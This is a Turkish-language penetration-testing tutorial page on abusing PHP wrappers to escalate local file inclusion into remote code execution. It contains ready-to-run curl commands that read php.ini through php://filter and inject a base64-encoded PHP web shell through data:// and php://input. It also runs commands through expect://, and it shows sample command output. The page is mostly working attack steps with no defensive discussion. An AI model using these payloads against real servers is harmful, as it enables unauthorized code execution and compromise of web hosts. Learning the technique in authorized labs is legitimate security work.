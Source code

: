 ```yaml
---
icon: material/circle-small
---
```


# PHP Wrappers

## Data

### Checking PHP Configurations

[Data wrapper](https://www.php.net/manual/en/wrappers.data.php), PHP kodu da dahil olmak üzere harici verileri dahil etmek için kullanılabilir. Ancak bunun için PHP yapılandırmasında `allow_url_include` ayarı etkin durumda olmalıdır. Bu sebeple ilk önce bu ayarın etkin olup olmadığını kontrol etmeliyiz.

İlk adım olarak Apache konumunda (`/etc/php/VERSION/apache2/php.ini`) veya Nginx konumunda (`/etc/php/X.Y/fpm/php.ini`) bulunan PHP yapılandırma dosyasını LFI ile elde etmeliyiz. Geçerli versiyonu (`VERSION`) bulmak için, en güncel PHP sürümünden başlayarak doğru sürümü bulana kadar diğer sürümleri deneyebiliriz.

[PHP Base64 Conversion Filter](https://www.php.net/manual/en/filters.convert.php) ile birlikte aşağıdaki gibi bir cURL komutu çalıştırmalıyız:

```bash
curl "http://SERVER_IP_ADDRESS:PORT/index.php?language=php://filter/read=convert.base64-encode/resource=../../../etc/php/7.4/apache2/php.ini"
```

```html title="Output"
<!DOCTYPE html>

<html lang="en">

...SNIP...

 <h2>Containers</h2>
    W1BIUF0KCjs7Ozs7Ozs7O

    ...SNIP...

    4KO2ZmaS5wcmVsb2FkPQo=
<p class="read-more">
```

Elde edilen Base64 dizesi çözüldükten sonra `allow_url_include` ayarının etkin olup olmadığı kontrol edilebilir:

```bash
echo 'W1BIUF0KCjs7Ozs7Ozs7O...SNIP...4KO2ZmaS5wcmVsb2FkPQo=' | base64 -d | grep allow_url_include
```

```text title="Output"
allow_url_include = On
```

Çıktıda görüldüğü üzere `allow_url_include` ayarı etkin durumdadır, yani Data wrapper kullanılabilir.

### Remote Code Execution

Data wrapper kullanımına geçmeden önce, temel bir PHP web kabuğunu Base64 ile kodla:

```bash
echo '<?php system($_GET["cmd"]); ?>' | base64
```

```text title="Output"
PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8+Cg==
```

Oluşturulan Base64 dizesini kullanarak cURL ile bir saldırı gerçekleştir (örnekte `cmd` olarak `id` komutu kullanılmıştır):

```bash
curl -s 'http://SERVER_IP_ADDRESS:PORT/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=id' | grep uid
```

```text title="Output"
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## Input

Data wrapper kullanımına benzer şekilde [Input wrapper](https://www.php.net/manual/en/wrappers.php.php) da kullanılabilir. Farklı olarak girdi için POST verisi verilmelidir:

```bash
curl -s -X POST --data '<?php system($_GET["cmd"]); ?>' "http://SERVER_IP_ADDRESS:PORT/index.php?language=php://input&cmd=id" | grep uid
```

```text title="Output"
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

!!! warning "GET"

    Web uygulamasında bulunan işlev, GET isteklerini kabul edecek şekilde bir zafiyete sahip değilse, dinamik web kabuğu (`<?php system($_GET["cmd"]); ?>`) yerine statik bir kabuk (`<\?php system('id')?>`) kullanılmalıdır.

## Expect

[Expect wrapper](https://www.php.net/manual/en/wrappers.expect.php) direkt olarak komut çalıştırılmasına izin verir. Fakat bu uzantı, sunucu tarafında el ile yüklenmiş ve etkinleştirilmiş olmalıdır.

Aynı `allow_url_include` ayarında olduğu gibi, bu sefer `expect` ayarının etkin olup olmadığını kontrol etmeliyiz:

```bash
echo 'W1BIUF0KCjs7Ozs7Ozs7O...SNIP...4KO2ZmaS5wcmVsb2FkPQo=' | base64 -d | grep expect
```

```text title="Output"
extension=expect
```

Expect wrapper aşağıdaki şekilde kullanılabilir:

```bash
curl -s "http://SERVER_IP_ADDRESS:PORT/index.php?language=expect://id"
```

```text title="Output"
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Expect wrapper kullanımının daha basit olduğu görülebilir. Çünkü bu modül, direkt olarak komut çalıştırmak için tasarlanmıştır.
